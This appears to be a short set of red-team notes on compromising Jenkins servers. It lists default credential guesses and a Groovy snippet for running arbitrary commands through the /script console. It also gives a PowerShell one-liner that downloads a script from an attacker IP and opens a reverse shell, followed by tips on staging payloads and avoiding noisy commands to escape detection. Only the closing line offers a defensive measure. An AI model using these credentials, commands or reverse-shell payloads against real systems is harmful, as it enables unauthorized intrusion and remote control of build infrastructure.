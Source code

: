 If you you see a user like `builduser` in the user list try the following credentials
```
    builduser: <null>
    builduser:builduser
    builduser:resudilub
    builduser:resudilub!
```

With Jenkins Admin creds you can go to `/script` and run the following
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

**No Admin creds, but can add or edit build steps in the build configuration**.
	1. Project0 (or any)
	2. Configure
	3. Add Build Step
		1. Execute Windows Batch Command

Add a "Execute Windows Batch command" build step and catch a reverse shell
```powershell
powershell.exe iex (iwr -UseBasicParsing http://172.16.100.48/Invoke-PowerShellTcp.ps1);power -Reverse -IPAddress 172.16.100.48 -Port 443
```

1. Create a local firewall rule to allow the hosting of a webserver
	1. Or turn it off
2. Host the web server using HFS or python

**In real redteam engagements don't drop a reverse shell or even the stage 1 payload. Start off with a stage zero payload that beacons and quietly enumerates to see if the target is heavily protected**


> [!NOTE] **IMPORTANT**
> `whoami` and `hostname` is very noisy
> use `$env:Username` and `ls env:` instead

One way to protect an enterprise application is to expose it to the internet via a Azure Proxy, make everyone authenticate using Entra ID and use a whitelist for people allowed to use it